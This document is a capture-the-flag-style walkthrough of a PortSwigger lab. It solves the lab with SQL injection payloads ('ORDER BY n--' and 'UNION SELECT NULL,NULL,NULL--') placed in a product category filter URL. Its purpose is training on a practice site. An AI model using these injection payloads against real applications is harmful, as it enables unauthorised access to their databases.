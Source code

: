 ## LAB 1: SQL injection UNION attack, determining the number of columns returned by the query
[SQL injection UNION attack, determining the number of columns returned by the query](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns)  
**LEVEL**: PRACTITIONER  
**Description**: This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a `UNION` attack to retrieve data from other tables. The first step of such an attack is to determine the number of columns that are being returned by the query. You will then use this technique in subsequent labs to construct the full attack.

To solve the lab, determine the number of columns returned by the query by performing an SQL injection UNION attack that returns an additional row containing null values.


## Solution
![LAB SCREENSHOT](./assets/lab1.1.PNG)

1. We need to determine the number of columns in the table
2. We need to return NULL fields

### 1. Determine the number of columns in the table
Using `ORDER BY` we can determine the number of columns in the table. `ORDER BY` sorts a table by a given column index. We can increment the column number by one until we get an error which will tell us that the previous number is the number of columns in the table. 

Trying the following parameters
`' ORDER BY 1--`
`' ORDER BY 2--`
`' ORDER BY 3--`
`' ORDER BY 4--`

On the last paramter where we order by 4 we get the following error `Internal Server Error` which is a 500 internal error. This means the number of columns in the table is 3.

FULL URL: `https://ace81f571f5d51b4c0d385d1000b00ae.web-security-academy.net/filter?category=Lifestyle' ORDER BY 4--`

### 2. Return NULL feild
We can now use `UNION` attack to return NULL fields, we need to return null for each column.

`' UNION SELECT NULL,NULL,NULL--`

FULL URL: `https://ace81f571f5d51b4c0d385d1000b00ae.web-security-academy.net/filter?category=Lifestyle' UNION SELECT NULL,NULL,NULL--'`

![SOLVED LAB SCREENSHOT](./assets/lab1.2.PNG)


<!-- EOF -->